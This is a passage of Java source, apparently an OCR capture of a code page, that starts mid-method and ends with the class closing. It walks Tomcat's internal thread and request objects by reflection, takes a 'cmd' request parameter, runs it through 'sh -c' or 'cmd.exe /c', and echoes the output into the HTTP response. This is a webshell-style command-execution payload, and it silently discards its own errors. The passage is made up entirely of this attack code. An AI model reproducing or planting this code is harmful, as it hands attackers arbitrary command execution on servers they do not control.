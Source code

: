 ```java
                    target.setAccessible(true);
                    Object o = target.get(thread2);

                    Field this$0 = o.getClass().getDeclaredField("this$0");
                    this$0.setAccessible(true);
                    Object o1 = this$0.get(o);

                    Field handler = Class.forName("org.apache.tomcat.util.net.AbstractEndpoint").getDeclaredField("handler");
                    handler.setAccessible(true);
                    Object handler1 = handler.get(o1);

                    Field global = handler1.getClass().getDeclaredField("global");
                    global.setAccessible(true);
                    RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(handler1);

                    Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                    processors.setAccessible(true);
                    java.util.List<RequestInfo> RequestInfo_list = (java.util.List<RequestInfo>) processors.get(requestGroupInfo);

                    Field req = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
                    req.setAccessible(true);
                    for (RequestInfo requestInfo : RequestInfo_list) {
                        org.apache.coyote.Request request1 = (org.apache.coyote.Request) req.get(requestInfo);
                        org.apache.catalina.connector.Request request2 = (org.apache.catalina.connector.Request) request1.getNote(1);
                        org.apache.catalina.connector.Response response2 = request2.getResponse();
                        java.io.Writer w = response2.getWriter();

                        String cmd = request2.getParameter("cmd");
                        boolean isLinux = true;
                        String osTyp = System.getProperty("os.name");
                        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                            isLinux = false;
                        }
                        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                        Scanner s = new Scanner(in).useDelimiter("\\a");
                        String output = s.hasNext() ? s.next() : "";
                        w.write(output);
                        w.flush();
                        Field responseField = ResponseFacade.class.getDeclaredField("response");
                        responseField.setAccessible(true);
                        Field usingWriter = Response.class.getDeclaredField("usingWriter");
                        usingWriter.setAccessible(true);
                        usingWriter.set(response2, Boolean.FALSE);
                    }
                }
            }
        } catch (ClassNotFoundException | NoSuchFieldException | IllegalAccessException e) {
            //e.printStackTrace();
        }
    }
}
```

